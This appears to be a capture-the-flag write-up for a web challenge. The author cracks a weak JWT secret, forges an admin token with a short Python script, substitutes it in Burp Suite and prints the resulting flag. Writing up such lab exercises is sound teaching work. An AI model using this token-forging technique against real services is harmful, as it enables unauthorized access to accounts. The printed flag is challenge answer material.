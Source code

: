 ## This one was quite comfortable, though for a while I did mistakenly write "name" instead of "username" as a parameter in the payload. Silly me.

When I got on the page, I immediately recognised the token on the page as a JWT token. I have a bit of experience with JWT tokens from previous CTF problems, so my first instinct was to put it through a [website](https://jwt-cracker.online/) to crack it. 

![image](https://github.com/user-attachments/assets/98d16789-f37c-4140-b9ee-eed560072126)

That is a very strong secret key! /s

I then constructed a script to generate a forged JWT token using the key I cracked and replacing "user" with "admin" in the username parameter. 
```python
import jwt
import datetime

secret_key = "1234"

payload = {
    "username": "admin",
    "exp": "1738458124"
}

# Encode the JWT
token = jwt.encode(payload, secret_key, algorithm="HS256")

print("Generated JWT:", token)
```
![image](https://github.com/user-attachments/assets/1669de00-bfc5-4e5b-bb4f-340eb88c4560)


I opened up burp suite and turned on intercept, then I replaced the original token in the request with my forged one.

![image](https://github.com/user-attachments/assets/550f5004-f816-4478-a06b-05fd918e1081)

After a few server hiccups on the organiser's end, I got in.

![image](https://github.com/user-attachments/assets/27e5e52c-246f-4a68-96e9-abe3b327a5fd)


```
ectf{JwT_T0keN_cR34t0r}
```
